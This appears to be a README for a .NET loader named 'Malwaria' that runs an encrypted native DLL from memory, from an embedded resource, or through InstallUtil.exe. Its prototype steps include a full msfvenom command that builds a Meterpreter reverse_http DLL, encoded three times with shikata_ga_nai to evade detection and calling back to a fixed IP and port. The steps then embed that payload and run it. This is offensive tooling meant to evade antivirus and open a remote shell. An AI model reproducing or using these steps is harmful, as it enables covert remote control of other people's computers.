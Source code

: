 # Malwaria
Execute Native DLL from .NET 

Based on https://github.com/Scavanger/MemoryModule.net

Added Crypto Support

Added Ability To Execute From Resource

Added Ability to be launched via InstallUtil.exe


Rough Prototype
1. Create The DLL:
<Embedded Sample>
./msfvenom -p windows/meterpreter/reverse_http -e x86/shikata_ga_nai -i 3 -f dll  -a x86 LHOST=192.168.249.129 LPORT=8080 > msf.dll

2. Add DLL To Project

3. Compile and Execute 

